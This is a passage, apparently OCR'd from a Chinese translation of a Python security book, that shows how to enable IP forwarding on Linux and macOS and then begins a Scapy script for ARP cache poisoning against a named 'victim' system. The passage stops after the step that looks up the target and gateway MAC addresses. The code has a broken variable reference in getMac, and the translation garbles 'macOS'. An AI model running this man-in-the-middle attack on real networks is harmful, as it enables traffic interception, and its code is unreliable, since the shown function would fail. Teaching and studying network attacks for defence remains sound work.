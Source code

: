如果输出为`1`，则启用 IP 转发；如果是`0`，则禁用 IP 转发。如果已禁用，请按如下方式启用：

```
echo 1 > /proc/sys/net/ipv4/ip_forward  
```

# 马科斯

您可以使用以下命令在 macOS 中启用 IP 转发：

```
sudo sysctl -w net.inet.ip.forwarding=1  
```

使用以下命令禁用它：

```
sudo sysctl -w net.inet.ip.forwarding=0  
```

# 怎么做。。。

以下是编写脚本以毒害受害者系统中的 ARP 缓存的步骤：

1.  创建一个新的`arp-cache-poisoning.py`文件并在编辑器中打开。
2.  导入`scapy`模块：

```
from scapy.all import *  
```

3.  声明变量。我们也可以从参数中获得这些参数，或者作为`raw_input()`：

```
interface = "en0"
gateway_ip = "192.168.1.2"
target_ip = "192.168.1.103"
broadcastMac = "ff:ff:ff:ff:ff:ff"
packet_count = 50  
```

4.  现在定义一个从提供的 IP 获取 MAC ID 的函数：

```
def getMac(IP):
    ans, unans = srp(Ether(dst=broadcastMac)/ARP(pdst = IP), timeout =2, iface=interface, inter=0.1)
    for send,recive in ans: 
        return r[Ether].src
    return None  
```

5.  现在用`getMac()`方法获取目标和网关的 MAC 地址：

```
try:
    gateway_mac = getMac(gateway_ip)
    print ("Gateway MAC :" + gateway_mac)
except:
    print ("Failed to get gateway MAC. Exiting.")
    sys.exit(0)
try:
    target_mac = getMac(target_ip)
    print ("Target MAC :" + target_mac)
except:
    print ("Failed to get target MAC. Exiting.")
    sys.exit(0)  
```
